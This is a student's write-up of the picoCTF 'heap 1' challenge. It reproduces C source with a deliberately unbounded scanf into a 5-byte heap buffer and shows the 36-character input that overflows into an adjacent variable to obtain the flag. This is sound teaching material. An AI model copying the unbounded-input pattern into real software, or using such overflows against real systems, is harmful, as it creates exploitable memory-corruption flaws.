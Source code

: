 # heap 1

flag : picoCTF{starting_to_get_the_hang_e9fbcea5}

## My Approach
 I first look t the source code
 ```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```

1. The program prints the flag if the safe_var variable equals "pico".
2. The objective is to modify safe_var to contain the string "pico"
3. Two memory allocations occur:
          input_data (5 bytes, initialized to "pico")
          safe_var (5 bytes, initialized to "bico")
     Both are allocated on the heap, which means they may be placed in contiguous memory locations.
4. scanf does not enforce bounds checking, meaning you can overflow the memory allocated for input_data and write into adjacent memory. This is a classic buffer overflow vulnerability.


*There is no exact size requested by malloc(). Instead, memory allocators usually align allocations to a multiple of some fixed size (e.g., 16 bytes, depending on the system and allocator).
As a result, even though input_data and safe_var request 5 bytes each, the actual allocated memory block for each is likely 16 bytes.
This means there is a 16-byte gap between the start of input_data and the start of safe_var (on systems where malloc uses 16-byte alignment).*
*The total amount of data required to overflow into safe_var would be:*

*- 16 bytes for input_data (actual allocation size),*
*- Another 16 bytes to overflow into safe_var.*
*- Thus, you need 32 characters to completely overwrite input_data and set safe_var to "pico".*

So, I enter option 2, and enters 32 a's and then pico.                     
I check by entering option 3 to ensure that safe_var is set to pico                             
Then I chose option 4 and got flag                   

## Terminal Output
```
1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaapico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 3


Take a look at my variable: safe_var = pico


1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{starting_to_get_the_hang_e9fbcea5}
```

## Errors
I didn'nt know how many characters wouold be needed to overwrite initially, so made a few mistakes there

## Resources
ChatGPT

## What did I learn
1. We can overflow into the next memory when there are two contiguous memory locations
2. malloc doesnt always specify size
3. even though safe_var was initialized with "bico", it could be overwritten by overflowing input_data
4. The distance between input_data and safe_var was critical in determining how much data to overflow.

